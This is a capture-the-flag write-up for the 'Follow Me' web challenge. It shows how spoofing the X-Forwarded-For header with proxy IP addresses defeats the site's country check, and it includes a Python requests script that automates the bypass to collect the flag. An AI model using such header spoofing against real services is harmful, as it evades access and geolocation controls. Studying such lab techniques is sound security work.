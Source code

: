 # WEB 150 - Follow Me

This challenge is a worldmap where you have to follow a hacker in random country.

![](img/worldmap_SHA.PNG)

To change the origin country of the request, i use the mozilla firefox add-on "AnonymoX" and saw that the message "you are in the wrong country (fr)" changed by "you are in wrong country (us)". 
So i tried to send a request by adding the header "X-Forwarded-For" and the ip address of a free proxy in the pays where the hacker is.
And thats worked !

So i wrote a python script that take 3 commands in input :
  - country : print the country where the hacker is and the number of country to before finding him
  - mv <*@ip_proxy*> : Add the "X-Forwarded-For" header with the IP specified.
  - restart : Some country don't have free proxy available
  
````python

import requests

def parse_pays(page):
	page = page.split("\n")
	to_print = ""
	for l in page:
		if '<div class="row"><div class="box" style=' in l:	
			to_print = l.split("<span>")[1]
			to_print = to_print.split('</span>')[0]
			print("You have to visit : %s " % (to_print))

def parse_visited(page):
	page = page.split("\n")
	for l in page:
		if 'Visited' in l:
			print(l)
			return l

def parse_flag(page):
	page = page.split("\n")
	for l in page:
		if 'flag' in l:
			print(l)

def parse_iswrong(page):
	page = page.split('\n')
	for l in page:
		if 'You are in the wrong country' in l:
			to_print = l.split('<p class="message">')[1]
			print(to_print)
def parse_newcountry(page):
	page = page.split("\n")
	for l in page:
		if 'You just missed the hacker, he moved to' in l:
			to_print = l.split('<p class="message">')[1]
			print(to_print)

cmd = ""
s = requests.Session()
url = "https://followme.stillhackinganyway.nl/"
r = s.get(url)
while cmd != "q":
	cmd = raw_input("$SHA: ")
	if cmd == "country":
		r = s.get(url)
		parse_pays(r.text)
		nb = parse_visited(r.text)
		parse_iswrong(r.text)	
	if "mv" in cmd:
		ip = cmd.split(" ")[1]	
		header = { 'X-Forwarded-For': '%s' % (ip)}
		r = s.get(url, headers=header)
		parse_newcountry(r.text)
		nb = parse_visited(r.text)
		if "12/12" in nb:
			parse_flag(r.text)
	if cmd == "restart":
		r = s.get("https://followme.stillhackinganyway.nl?restart=1")
		r = s.get(url)
		parse_pays(r.text)
		nb = parse_visited(r.text)
		parse_iswrong(r.text)
	
```

Then i was able to send request to the site from any country in the world where a free proxy is available.
Below the screenshot of the script running : 

